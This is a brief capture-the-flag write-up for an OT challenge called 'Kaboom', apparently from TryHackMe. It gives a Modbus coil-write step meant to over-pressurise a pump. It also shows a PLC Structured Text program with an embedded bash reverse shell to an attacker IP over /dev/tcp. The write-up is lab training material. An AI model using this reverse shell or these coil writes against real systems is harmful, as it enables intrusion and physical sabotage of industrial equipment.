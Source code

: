 ```yaml
---
title: Kaboom
categories: OT
tags: 
draft: true
completedDuringEvent: true
submitted: true
flags: flag: THM{REDACTED}
---
```

> This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.

---

## Modbus

Write coils from address `0` to `100?` with values `1`.

## Ubuntu Access

```
PROGRAM prog0
  VAR
    var_in : BOOL;
    var_out : BOOL;
  END_VAR

  var_out := var_in;

  { system("bash -c 'bash -i >& /dev/tcp/10.17.37.98/4444 0>&1'"); }
END_PROGRAM


CONFIGURATION Config0

  RESOURCE Res0 ON PLC
    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);
    PROGRAM Inst0 WITH Main : prog0;
  END_RESOURCE
END_CONFIGURATION
```
